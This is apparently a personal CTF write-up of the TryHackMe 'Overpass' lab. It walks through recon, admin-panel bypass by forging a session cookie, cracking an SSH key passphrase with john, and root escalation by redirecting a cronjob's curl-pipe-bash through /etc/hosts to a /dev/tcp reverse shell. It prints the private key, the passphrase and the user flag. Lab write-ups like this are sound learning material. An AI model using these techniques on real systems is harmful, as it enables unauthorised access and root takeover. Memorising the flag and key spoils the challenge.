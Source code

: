#+TITLE: overpass

* nmap
#+begin_src bash

┌──(kali㉿kali)-[~/…/haxxx/ctf/thm/overpass]
└─$ cat nmap/scan.nmap
# Nmap 7.91 scan initiated Thu Nov 19 21:21:25 2020 as: nmap -sC -sV -oA nmap/scan 10.10.162.41
Nmap scan report for 10.10.162.41
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 19 21:21:50 2020 -- 1 IP address (1 host up) scanned in 25.32 seconds

#+end_src

* gobuster
#+begin_src bash

┌──(kali㉿kali)-[~/…/haxxx/ctf/thm/overpass]
└─$ gobuster dir -u 10.10.162.41 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.162.41
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/19 21:31:30 Starting gobuster
===============================================================
/img (Status: 301)
/downloads (Status: 301)
/aboutus (Status: 301)
/admin (Status: 301)
/css (Status: 301)
Progress: 815 / 87665 (0.93%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/19 21:31:40 Finished
===============================================================

#+end_src

* http://10.10.162.41/
[[file:./images/screenshot-14.png]]

* http://10.10.162.41/admin
[[file:./images/screenshot-17.png]]

- the /admin panel ends up being vulnerable.

[[file:./images/screenshot-22.png]]

  if the server responds with “Incorrect credentials” don’t allow that person to get access to the administrator’s panel but if the server doesn’t responds with “Incorrect credentials” give that particular person a session token and give him access to the administrative panel.

- we end up creating our own cookie
  #+begin_src javascript

document.cookie="SessionToken=letmeinnnnnnnnnnnnnnnn"

  #+end_src

[[file:./images/screenshot-20.png]]

- and were in
  - usernames
    : James

* rsa
#+begin_src bash

  -----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----

#+end_src


* john
#+begin_src bash

┌──(kali㉿kali)-[~/…/haxxx/ctf/thm/overpass]
└─$ john james.key --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (/home/kali/Desktop/haxxx/ctf/thm/overpass/id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2020-11-20 12:49) 0.4201g/s 6025Kp/s 6025Kc/s 6025KC/sa6_123..*7¡Vamos!
Session completed

#+end_src
- private key
  : james13

* ssh
#+begin_src bash

┌──(kali㉿kali)-[~/…/haxxx/ctf/thm/overpass]
└─$ sudo ssh -i id_rsa james@10.10.198.77
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Nov 20 17:52:21 UTC 2020

  System load:  0.24               Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.198.77
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}

#+end_src

* cronjobs
- we end up finding a cronjob running as root
[[file:./images/screenshot-23.png]]

* exploit
- we also find out that we have write access to /etc/hosts
  - so we can spoof the cronjob
    : curl overpass.thm/downloads/src/buildscript.sh | bash

    - we edit /etc/hosts
      and replace the original ip with our own

- now we set up a server in our machine running the same path as the cronjob so we dont get a 404 when the cronjob runs.
  - www/downloads/src/buildscript.sh
    : bash -i >& /dev/tcp/10.6.27.168/1337 0>&1
- with the reverse shell in place, all we have to do now is listen in our local machine and wait for the cronjob to execute and it will connect back to our machine and give us a reverse shell as root.

* listening
#+begin_src bash

┌──(kali㉿kali)-[~/…/overpass/www/downloads/src]
└─$ sudo nc -lvnp 1337
[sudo] password for kali:
listening on [any] 1337 ...
connect to [10.6.27.168] from (UNKNOWN) [10.10.198.77] 58690
bash: cannot set terminal process group (2516): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~#

#+end_src
